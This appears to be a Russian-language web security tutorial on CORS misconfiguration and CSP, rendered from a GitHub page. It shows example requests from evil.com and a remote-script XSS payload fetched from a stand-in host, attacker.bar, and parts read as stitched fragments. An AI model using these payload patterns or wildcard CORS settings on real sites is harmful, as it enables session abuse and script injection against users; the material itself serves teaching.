 **Совместное использование ресурсов (CORS)**

**CORS(Cross-Origin Resource Sharing)** — это механизм безопасности, который позволяет веб-странице из одного домена обращаться к ресурсу с другим доменом (кросс-доменным запросом). Без таких функций, как CORS, веб-сайты ограничиваются доступом к ресурсам одного и того же происхождения через так называемую политику единого происхождения.

По умолчанию веб-браузеры не разрешают AJAX-запросы на сайты, кроме сайта, который вы посещаете. Это называется политикой единого происхождения, и это важная часть модели веб-безопасности. Совместное использование ресурсов между разными источниками (cross-origin resource sharing) — это механизм HTML 5, который дополняет политику единого происхождения для упрощения совместного использования ресурсов домена между различными веб-приложениями.

Спецификация CORS определяет набор заголовков, которые позволяют серверу и браузеру определять, какие запросы для междоменных ресурсов (изображения, таблицы стилей, сценарии, данные и т. д.) разрешены, а какие нет. CORS является техникой для ослабления правила одного источника, позволяя JavaScript на web странице обрабатывать REST API запросы от другого источника.

При запросе на site.ru/resource с site.com/some будут следующие заголовки:

GET /resource
Host:site.ru
Origin: http://site.com


Если запрос принят, запрашиваемый сервер добавляет к ответу заголовок Access-Control-Allow-Origin, содержащий домен запроса site.com.

**Access-Control-Allow-Origin** указывает, какие домены могут обращаться к ресурсам сайта. Например, если компания имеет домены site.ru и site.com, то ее разработчики могут использовать этот заголовок, чтобы предоставить site.com доступ к ресурсам site.ru.

**Access-Control-Allow-Methods** определяет, какие HTTP-запросы (GET, PUT, DELETE и т. д.) могут быть использованы для доступа к ресурсам. Этот заголовок позволяет повысить безопасность, указав какие методы действительны, когда site.com обращается к ресурсам site.ru.

**Access-Control-Max-Age** указывает время жизни предзапроса (также он называется "предполетным") доступности того или иного метода, после которого должен быть выполнен новый запрос на тот или иной метод.

Наиболее распространенная проблема безопасности при внедрении CORS — это отказ от проверки запроса белых списков. Зачастую разработчики устанавливают значение для Access-Control-Allow-Origin в '*'. Это позволяет любому домену в Интернете получать доступ к ресурсам этого сайта.

Пример ошибки:
No 'Access-Control-Allow-Origin' header is present on the requested resource. Origin 'null' is therefore not allowed access.

Сценарий должен выполняться на стороне клиента, чтобы получить доступ к вашим куки-сайтам на стороне клиента.

Запрос:

GET /resource  HTTP/1.1
Host: site.ru
Referer: http://evil.com/request.html
Origin: http://evil.com

Ответ:

HTTP/1.1 200 OK
Access-Control-Allow-Origin: *

Основания проблема кроется в том, что многие компании размещают API в пределах домена, не ограничивания к нему доступ политикой "белого списка". Это порождает уязвимость.

**Attack scenario**

Большинство веб-приложений использует файлы cookie для отслеживания информации о сеансе. При генерации cookie ограничены определенным доменом. При каждом HTTP запросе к этому домену браузер подставлять значение cookie, созданные для этого домена. Это относится к каждому HTTP запросу — для получения изображений, страниц или AJAX-вызовов.

Что это означает на практике: при авторизации в goodsite.ru, cookie генерируются и хранятся для этого домена. Веб-приложение goodsite.ru основано на технологии SPA и содержит REST API на goodsite.ru/api для взаимодействия с помощью AJAX. Предположим, что вы просматриваете badsite.ru, будучи авторизованным на goodsite.ru. Без ограничения Access-Control-Allow-Origin по белому списку (с указанием сайта) badsite.ru может выполнить любой разрешенный аутентифицированный запрос к goodsite.ru, даже не имея прямого доступа к сессионной cookie!

Это связано с тем, что браузер автоматически привязывает файлы cookie к goodsite.ru для любых HTTP запросов в этом домене, включая AJAX запросы от badsite.ru в goodsite.ru. Таким образом атакующий может взаимодействовать даже с вашим внутренним ресурсом, недоступным в сети интернет и находящимся в корпоративной сети.

Access-Control-Allow-Credentials Вы правы — для запросов с withCredentials предусмотрено дополнительное подтверждение со стороны сервера. При запросе с withCredentials сервер должен вернуть уже не один, а два заголовка:

Access-Control-Allow-Origin: домен
Access-Control-Allow-Credentials: true

Значение заголовка «Access-Control-Allow-Origin» не должно равняться *. Иначе, даже если Access-Control-Allow-Credentials === true, то браузер не допустит отправку сredentials.

---

Например, такой запрос будет показывать содержимое файла profile.php:
http://example.foo/main.php#profile.php

Запрос:

GET http://example.foo/profile.php HTTP/1.1
Host: example.foo
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Referer: http://example.foo/main.php

Ответ:

HTTP/1.1 200 OK
Connection: Keep-Alive
Content-Type: text/html

[Response Body]

Т.к. отсутствует проверка URL-адреса, атакующий может добавить скрипт, который будет выполняться в контексте домена example.foo со следующим URL:

http://example.foo/main.php#http://attacker.bar/file.php

Запрос:

GET http://attacker.bar/file.php HTTP/1.1
Host: attacker.bar
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Referer: http://example.foo/main.php
Origin: http://example.foo

Ответ:

HTTP/1.1 200 OK
Access-Control-Allow-Origin: *
Content-Type: text/html

Пейлоад attacker.bar <img src="#" onerror="alert('Domain: '+document.domain)"> 

---

**Политика безопасности контента (CSP)**

**Content Security Policy (CSP)**

Итак, как это работает? 

Когда вы нажимаете на ссылку или набираете URL-адрес веб-сайта в адресной строке вашего браузера, ваш браузер делает запрос GET. Он в конечном итоге пробивается к серверу, который обслуживает HTML вместе с некоторыми HTTP-заголовками. Если вам интересно, какие заголовки вы получаете, откройте вкладку «Сеть» в консоли и посетите некоторые веб-сайты.

content-security-policy: default-src * data: blob:;script-src *.facebook.com *.fbcdn.net *.facebook.net *.google-analytics.com *.virtualearth.net *.google.com 127.0.0.1:* *.spotilocal.com:* 'unsafe-inline' 'unsafe-eval' *.atlassolutions.com blob: data: 'self';style-src data: blob: 'unsafe-inline' *;connect-src *.facebook.com facebook.com *.fbcdn.net *.facebook.net *.spotilocal.com:* wss://*.facebook.com:* https://fb.scanandcleanlocal.com:* *.atlassolutions.com attachment.fbsbx.com ws://localhost:* blob: *.cdninstagram.com 'self' chrome-extension://boadgeojelhgndaghljhdicfkmllpafd chrome-extension://dliochdbjfkdbacpmhlcpmleaejidimm;

Это политика безопасности контента на facebook.com. Давайте переформатируем его, чтобы было легче читать:

content-security-policy:

default-src * data: blob:;

script-src *.facebook.com *.fbcdn.net *.facebook.net *.google-analytics.com *.virtualearth.net *.google.com 127.0.0.1:* *.spotilocal.com:* 'unsafe-inline' 'unsafe-eval' *.atlassolutions.com blob: data: 'self';

style-src data: blob: 'unsafe-inline' *;

connect-src *.facebook.com facebook.com *.fbcdn.net *.facebook.net *.spotilocal.com:* wss://*.facebook.com:* https://fb.scanandcleanlocal.com:* *.atlassolutions.com attachment.fbsbx.com ws://localhost:* blob: *.cdninstagram.com 'self' chrome-extension://boadgeojelhgndaghljhdicfkmllpafd chrome-extension://dliochdbjfkdbacpmhlcpmleaejidimm;


